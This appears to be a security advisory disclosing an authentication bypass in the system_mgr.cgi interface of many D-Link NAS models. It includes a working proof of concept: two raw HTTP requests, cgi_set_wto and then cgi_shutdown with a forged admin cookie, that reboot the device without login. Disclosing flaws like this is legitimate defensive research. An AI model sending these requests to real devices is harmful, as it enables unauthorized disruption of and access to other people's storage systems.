

# D-Link Vulnerability

Vendor:D-Link

Product:DNS-120、DNR-202L、DNS-315L、DNS-320、DNS-320L、DNS-320LW、DNS-321、DNR-322L、DNS-323、DNS-325、DNS-326、DNS-327L、DNR-326、DNS-340L、DNS-343、DNS-345、DNS-726-4、DNS-1100-4、DNS-1200-05 、DNS-1550-04

Version:up to 20260205

Type:Authentication Bypass

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability reporting environment is based on the latest version 2.06b01 of the DNS-320.


## Vulnerability description

We identified an authentication bypass vulnerability in a recently released firmware of a D-Link NAS device. This vulnerability allows remote attackers to bypass authentication checks and gain unauthorized access via specially crafted requests.

**Authentication Bypass**

In `system_mgr.cgi` binary:

By abusing the `cgi_set_wto` interface, an attacker can modify the default admin account configuration to achieve persistent privileged access. After establishing this unauthorized persistence, the attacker can access arbitrary management interfaces, and further chain this vulnerability with other authenticated flaws, such as command injection or buffer overflow vulnerabilities, to ultimately gain full control of the device.

<div  align="center"></div>


## PoC

First, the attacker sends a crafted request to the `cgi_set_wto` interface.

```http
POST /cgi-bin/system_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 15
Origin: http://192.168.0.32
Connection: keep-alive
Referer: http://192.168.0.32/web/backup_mgr/s3_main.html
Priority: u=0

cmd=cgi_set_wto
```

Then, the attacker invokes the device `cgi_shutdown` interface.


```http
POST /cgi-bin/system_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 16
Origin: http://192.168.0.32
Connection: keep-alive
Referer: http://192.168.0.32/web/system_mgr/system.html
Cookie: username=admin
Priority: u=0

cmd=cgi_shutdown
```


## Result

As a result, the device can be rebooted without proper authentication, leading to an unauthorized device reboot.
